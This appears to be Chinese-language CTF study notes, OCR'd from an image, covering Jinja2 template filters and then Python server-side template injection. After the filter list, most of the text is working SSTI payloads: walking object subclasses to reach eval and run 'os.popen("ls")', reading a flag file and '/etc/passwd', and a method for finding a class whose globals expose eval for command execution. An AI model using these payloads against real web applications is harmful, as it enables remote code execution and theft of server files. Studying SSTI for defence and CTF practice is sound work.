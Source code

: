 ```
abs()：返回一个数值的绝对值；

first()：返回一个序列的第一个元素；

last()：返回一个序列的最后一个元素；

format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!

length()：返回一个序列或者字典的长度；

sum()：返回列表内数值的和；

sort()：返回排序后的列表；

default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。

length()返回字符串的长度，别名是count
```

```
控制结构 {% %}
变量取值 {{ }}
注释 {# #}
```

```
{{[].__class__.__base__.__subclasses__()}}   //查看所有的模块
```

os模块都是从warnings.catch\_warnings模块入手的，在所有模块中查找catch\_warnings的位置，为第59个

利用到的是func_globals.keys() ：查看全局函数

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()' )
```

查看flag文件所在

```
{{"".__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}
```

读取文件 利用到的是object对象下的file类的read函数

```
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```

### 常见的基础调用类函数执行

```
>>>''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()
返回子类的列表 \[,,,...\]
从中随便选一个类,查看它的\_\_init\_\_
>>>''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\[30\].\_\_init\_\_
<slot wrapper '\_\_init\_\_' of 'object' objects>
wrapper是指这些函数并没有被重载，这时他们并不是function，不具有\_\_globals\_\_属性
#再换几个子类，很快就能找到一个重载过\_\_init\_\_的类，比如
''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\[5\].\_\_init\_\_
''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\[5\].\_\_init\_\_.\_\_globals\_\_\['\_\_builtins\_\_'\]\['eval'\]
然后用eval执行命令即可
```
